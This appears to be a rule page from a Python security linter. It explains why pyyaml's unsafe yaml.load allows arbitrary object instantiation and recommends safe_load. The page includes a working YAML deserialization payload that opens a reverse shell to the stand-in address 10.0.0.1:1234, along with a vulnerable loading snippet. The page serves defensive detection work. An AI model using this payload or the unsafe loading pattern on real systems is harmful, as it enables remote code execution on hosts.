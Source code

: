 # YML100

Use of unsafe yaml load. Allows instantiation of arbitrary objects. Consider yaml.safe_load().

The Pyyaml library's default loader will read any YAML attributes starting with `!!` as special syntax, including the `!!python/object/apply` command, which can execute any method in the standard library.

Because the standard library includes functions to starting local processes, using `yaml.load` against this input would execute local commands on the host shell.

## Deprecation in pyyaml 5.1

Wait, didn't pyyaml deprecate the unsafe loader?

Not really- newer versions of pyyaml (5.1) will raise a __warning__, however many situations like web servers developers would not see this warning.

## Example

```python
import yaml
with open('cfg.yaml') as cfg:
    config = yaml.load(cfg)
```

Any attackers payload could look something like this:

```yaml
!!python/object/apply:exec ['import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']
```

When deserialized, this would start a shell on TCP 10.0.0.1:1234.

## Quick Fixes

* Plugin will recommend [Safe Load Fixer](../fixes/safeloadfixer.md).

## See Also

* [YAML Load Input Documentation](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation)